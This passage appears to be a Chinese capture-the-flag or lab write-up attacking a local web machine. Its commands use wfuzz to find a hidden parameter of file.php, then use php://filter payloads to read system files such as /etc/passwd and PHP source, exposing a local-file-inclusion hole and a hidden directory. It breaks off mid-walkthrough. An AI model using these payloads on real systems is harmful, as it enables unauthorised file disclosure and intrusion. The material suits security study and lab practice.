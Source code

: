 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

访问后是空白页面，猜测可以读取文件，用模糊测试验证一下

```
wfuzz -c -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.0.115/planet/file.php?FUZZ=/etc/passwd --hw=0
```

换了几个字典都跑不到，可能路径不对，不能读passwd我们读同目录下的secret.php，读php需要使用伪协议并转换为base64

```
wfuzz -c -w /usr/share/wordlists/rockyou.txt -u http://10.0.0.115/planet/file.php?FUZZ=php://filter/convert.base64-encode/resource=secret.php --hh 0
```

结果并不好，由于无法读取passwd猜想是不是源码中添加了其他内容，

```
wfuzz -c -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.0.115/planet/file.php?FUZZ=php://filter/convert.base64-encode/resource=secret --hh 0 -t 64
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

取消了扩展名后终于得到了参数，先来看看fiel.php的源码

```
http://10.0.0.115/planet/file.php?file=php://filter/convert.base64-encode/resource=file
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

base64解码

```
echo 'PD9waHAKICAgIGluY2x1ZGUoJF9HRVRbImZpbGUiXS4iLnBocCIpOwo/Pgo=' | base64 -d
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

源码中补上了扩展名，再来看看secret.php

利用模糊测试时间再来看一下secret.php

```
http://10.0.0.115/planet/file.php?file=php://filter/convert.base64-encode/resource=secret
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
echo 'PD9waHAKICAgIHN5c3RlbSgiaWQiKTsgLy8gICAgICAgICAgICAgICAgICAvTXlfSDFkZDNuX1MzY3IzdAo/Pgo=' | base64 -d
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

代码写死了不能利用，后面有一个注释应该是目录，验证一下
